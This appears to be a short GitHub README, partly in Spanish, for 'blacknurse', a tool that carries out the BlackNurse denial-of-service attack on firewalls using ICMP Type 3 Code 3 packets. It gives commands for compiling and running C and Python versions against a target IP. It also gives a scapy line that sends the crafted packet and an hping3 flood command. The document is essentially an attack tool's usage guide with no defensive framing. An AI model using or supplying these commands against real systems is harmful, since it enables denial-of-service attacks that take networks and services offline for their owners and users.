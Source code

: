# blacknurse
Black Nurse DOS Attack Firewall ( ICMP Type 3 Code 3 )

Ejecutar en c:
gcc blacknurse.c -o blacknurse
./blacknurse IP

Ejecutar en Python:
python blacknurse.py IP

Ejecutar con scapy: 
send(IP(dst="1.2.3.4")/ICMP(code=3,type=3))

Ejecutar con hping3
hping3 --icmp -C 3 -K 3 --flood IP

